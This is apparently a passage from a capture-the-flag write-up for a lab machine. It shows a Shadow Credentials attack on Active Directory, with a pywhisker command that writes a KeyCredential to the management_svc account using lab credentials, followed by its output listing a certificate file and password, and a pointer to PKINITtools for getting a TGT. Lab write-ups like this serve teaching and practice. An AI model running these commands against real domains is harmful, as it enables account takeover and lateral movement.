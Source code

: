<img src="Imgs/image2.png" alt="error loading image">  

Now, we can see that **Management** has **GenericWrite** on **management_svc**, which means it allows a user or group to modify most attributes of the target object.

### Performing a Shadow Credentials Attack to Obtain a TGT

1. **Use PyWhisker to Add a Shadow Credential for management_svc**

2. **Use PKINITtools to Obtain a TGT Using the Certificate**

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest]
└─$ python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"                                   

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 50ab534f-a46b-c4f5-6b86-427dfa5808ca
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 7tVgShqZ.pfx
[*] Must be used with password: NU0ILJNabrxJ9IL5TMOs
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
